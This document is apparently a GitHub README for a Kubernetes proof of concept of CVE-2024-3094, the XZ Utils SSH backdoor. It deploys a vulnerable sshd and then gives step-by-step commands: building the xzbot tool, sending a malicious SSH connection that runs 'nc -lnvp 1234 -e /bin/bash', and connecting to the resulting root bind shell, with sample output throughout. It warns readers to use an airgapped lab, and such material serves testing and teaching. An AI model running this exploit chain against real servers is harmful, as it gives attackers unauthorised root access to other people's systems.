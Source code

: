 # xzwhy
```
 _  _  ____  _  _ 
( \/ )(_   )( \/ )
 )  (  / /_  \  / 
(_/\_)(____) (__) 

```

This project is a Kubernetes-friendly Proof of Concept (POC) for [CVE-2024-3094](https://nvd.nist.gov/vuln/detail/CVE-2024-3094) affecting XZ Utils. See [this article](https://pentest-tools.com/blog/xz-utils-backdoor-cve-2024-3094) for an excellent walkthrough of the exploit's provenance and mechanics.

# WARNING 
⚠⚠⚠

Running any of the commands below may result in the deployment of a vulnerable application that is highly susceptible to attack. If you choose to follow these steps, it is recommended that you do so in an airgapped test environment. 

⚠⚠⚠


## Instructions


### 1: Roll out the vulnerable application
```
kubectl create -f xzwhy.yml
```

This will deploy a vulnerable SSH endpoint whose entrypoint is ```/bin/bash -c "env -i LANG=en_US.UTF-8 && unset TERM && unset LD_DEBUG && LD_LIBRARY_PATH=/CVE-2024-3094/ /usr/sbin/sshd -p 2222 -D"```


### 2: Obtain the vulnerable endpoint's URL
The vulnerable SSH endpoint exposes two ports via a load balancer: 2222 is listening for SSH connections and 1234 is a convenience to allow ingress on a bind shell port that we will use during the exploit
```
  type: LoadBalancer
  ports:
    - name: ssh
      protocol: TCP
      port: 2222
      targetPort: 2222
    - name: exploitshellingress
      protocol: TCP
      port: 1234
      targetPort: 1234
```


We can extract the deployed loadbalancer's URL using kubectl:
```
xzwhy_endpoint=`kubectl get services -o jsonpath='{.items[0].status.loadBalancer.ingress[0].hostname}' --namespace=xzwhy-ns --field-selector metadata.name=xzwhy-loadbalancer` && echo $xzwhy_endpoint
```


### 3: Initiate the attack by making a malicious SSH connection
Now we connect to the vulnerable server using the [teamnautilus/xzbot](https://hub.docker.com/r/teamnautilus/xzbot) utility:
```
docker run -it --rm golang:latest /bin/bash -c "mkdir -p /xzbot && pushd /xzbot/ && git clone https://github.com/amlweems/xzbot.git && ls -laF && pushd ./xzbot/ && go build -o /xzbot/tmp/; popd && /xzbot/tmp/xzbot -h && /xzbot/tmp/xzbot -addr $xzwhy_endpoint:2222 -cmd 'nc -lnvp 1234 -e /bin/bash'"
```

This will cause the vulnerable SSH server to execute a bind shell via ```nc -lnvp 1234 -e /bin/bash``` on our behalf. After running this command you should see something similar to:
```
Cloning into 'xzbot'...
remote: Enumerating objects: 30, done.
remote: Counting objects: 100% (30/30), done.
remote: Compressing objects: 100% (20/20), done.
remote: Total 30 (delta 14), reused 25 (delta 10), pack-reused 0
Receiving objects: 100% (30/30), 422.65 KiB | 8.99 MiB/s, done.
Resolving deltas: 100% (14/14), done.
total 12
drwxr-xr-x 3 root root 4096 Apr 17 22:37 ./
drwxr-xr-x 1 root root 4096 Apr 17 22:37 ../
drwxr-xr-x 4 root root 4096 Apr 17 22:37 xzbot/
/xzbot/xzbot /xzbot /go
go: downloading github.com/cloudflare/circl v1.3.7
go: downloading golang.org/x/crypto v0.21.0
go: downloading golang.org/x/sys v0.18.0
/xzbot /go
Usage of /xzbot/tmp/xzbot:
  -addr string
        ssh server address (default "127.0.0.1:2222")
  -cmd string
        command to run via system() (default "id > /tmp/.xz")
  -seed string
        ed448 seed, must match xz backdoor key (default "0")
00000000  00 00 00 1c 73 73 68 2d  72 73 61 2d 63 65 72 74  |....ssh-rsa-cert|
00000010  2d 76 30 31 40 6f 70 65  6e 73 73 68 2e 63 6f 6d  |-v01@openssh.com|
00000020  00 00 00 00 00 00 00 03  01 00 01 00 00 01 01 01  |................|
00000030  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000040  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000050  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000060  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000070  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000080  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000090  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000a0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000b0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000c0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000e0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000f0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000100  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000110  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000120  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000130  00 00 00 00 00 00 00 00  00 00 00 01 00 00 00 00  |................|
00000140  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000150  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000160  00 00 01 14 00 00 00 07  73 73 68 2d 72 73 61 00  |........ssh-rsa.|
00000170  00 00 01 01 00 00 01 00  34 12 00 00 78 56 00 00  |........4...xV..|
00000180  a2 ff d9 f9 ff ff ff ff  a1 36 c4 cc b3 b2 4d b3  |.........6....M.|
00000190  99 11 52 a7 2c 38 d2 29  f9 5d 1a 06 63 36 1e 48  |..R.,8.).]..c6.H|
000001a0  9c 95 4e f1 77 41 07 92  1c a4 9f b0 b4 dc 93 c2  |..N.wA..........|
000001b0  66 03 3d fa 5c 8b 49 41  86 26 42 88 2b 9d 5b 4c  |f.=.\.IA.&B.+.[L|
000001c0  b8 a4 5e 9d 62 c3 51 0a  be ca 5d 8a 47 45 3a 1e  |..^.b.Q...].GE:.|
000001d0  99 1f c1 0e 97 b7 58 ec  51 45 5b 24 3f b4 69 6a  |......X.QE[$?.ij|
000001e0  68 45 7c 3b 3a d9 d7 0a  ad 09 04 d8 a1 b9 81 22  |hE|;:.........."|
000001f0  58 69 eb 07 ad 91 53 15  b2 1d bf 47 b9 48 a0 4e  |Xi....S....G.H.N|
00000200  8b 28 cd 82 4b fd 72 17  12 ce 7f e7 15 3c 9e fa  |.(..K.r......<..|
00000210  a7 e1 d6 e4 ec eb 66 34  5a 74 00 00 00 00 00 00  |......f4Zt......|
00000220  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000230  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000240  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000250  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000260  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000270  00 00 00 00 00 00 00 00  00 00 00 10 00 00 00 07  |................|
00000280  73 73 68 2d 72 73 61 00  00 00 01 00              |ssh-rsa.....|
```

### 4: Profit
Connect to the shell you spawned. Note the use of the xzwhy_endpoint variable:
```
nc $xzwhy_endpoint 1234
```

It isn't immediately obvious, but the command above connects to a bind shell as root. You can test this by running various commands:
```
whoami
root
```

```
hostname -i
10.0.128.62
```


### 5: Cleanup
```
kubectl delete -f xzwhy.yml
```


# Credits

* [teamnautilus](https://hub.docker.com/r/teamnautilus/xzbot) created a [server vulnerable to the exploit](https://hub.docker.com/r/teamnautilus/xzbot)
* [amlweems](https://github.com/amlweems/xzbot.git) published an automated tool for exploiting vulnerable SSH endpoints
* [patorjk](http://patorjk.com/) created an excellent [text-to-ascii art generator](https://patorjk.com/software/taag/#p)
